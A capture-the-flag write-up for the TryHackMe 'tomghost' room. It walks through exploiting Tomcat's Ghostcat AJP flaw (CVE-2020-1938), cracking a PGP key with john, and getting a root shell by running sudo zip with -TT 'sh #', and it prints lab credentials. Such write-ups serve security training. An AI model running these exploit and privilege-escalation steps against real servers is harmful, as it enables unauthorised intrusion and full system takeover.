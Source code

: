 # tomghost

[tomghost](https://tryhackme.com/room/tomghost)

## Solution

### Initial Enumeration

Usually I begin by running an nmap scan on the ip address of the box.

```console
nmap $IP
```

This will output the open ports. We obtain

```
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

Now we can try to run some basic scripts and to get the versions of these processes by using

```console
nmap -sS -sV -sC -p22,53,8009,8080 $IP
```

This might require sudo to run (because of `-sS`).

### Apache Tomcat

We can see that the server uses `Apache Tomcat 9.0.30` which is vulnerable to
https://nvd.nist.gov/vuln/detail/CVE-2020-1938. The server also uses `Apache
Jserv (Protocol v1.3)` which is a part of the exploit.

We can use
https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md
to exploit the vulnerability.

However, this script doesn't work and I had to patch it

```console
261c261
< 		self.stream = self.socket.makefile("rb", bufsize=0)
---
> 		self.stream = self.socket.makefile("rb")
301c301
< print("".join([d.data for d in data]))
---
> print(b"".join([d.data for d in data]))
```

(You can copy paste this into `patchfile.patch` and then run `patch
CVE-2020-1938.py patchfile.patch` or get the script from my github).

Next you can run

```console
python CVE-2020-1938.py $IP -p 8009 -f WEB-INF/web.xml
```

This will output the config of the server and here we can see a username and a
password `skyfuck:8730281lkjlkjdqlksalks`. So we can try to ssh into the machine.

### SkyF**k

Since we have the password for this user we can try to see if we have sudo
privilege using `sudo -l`, but we do not have any access to sudo.

If we look in `/home` we can see that there is another user called `merlin`.

In our own home directory we have two files `credential.pgp` and
`tryhackme.asc`. We can use `scp` or any other method to download them locally
`scp skyfuck@$IP:credential.pgp .`.

We can inspect the two files.

- `credential.pgp`: PGP Elgamal encrypted session key - keyid: 61E104A6 6184FBCC Elgamal Encrypt-Only 1024b.
- `tryhackme.asc`: PGP private key block

We can try to use `john` to crack the `tryhackme.asc` key. (https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john tryhackme.asc > tryhackme.txt
john tryhackme.txt
```

And we get the key `alexandru`.

Next we can unlock the PGP file. (when you import the file make sure to enter the password in the popup window).

```console
gpg --import tryhackme.asc
gpg -d credential.pgp
```

This gives us the other user credentials `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.

Next we can ssh into this user and `cat user.txt` to ge the flag.

### Merlin

Again we can try to see what havoc we can cause with `sudo -l`.

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

This means we can run zip as root.

```console
sudo zip user.zip user.txt -T -TT "sh #"
```

The important part of this command is to use -TT which executes a command to
test if the archive is ok. (man zip) (https://gtfobins.github.io/gtfobins/zip/#sudo)

Next we can show the root flag from `/root/root.txt`
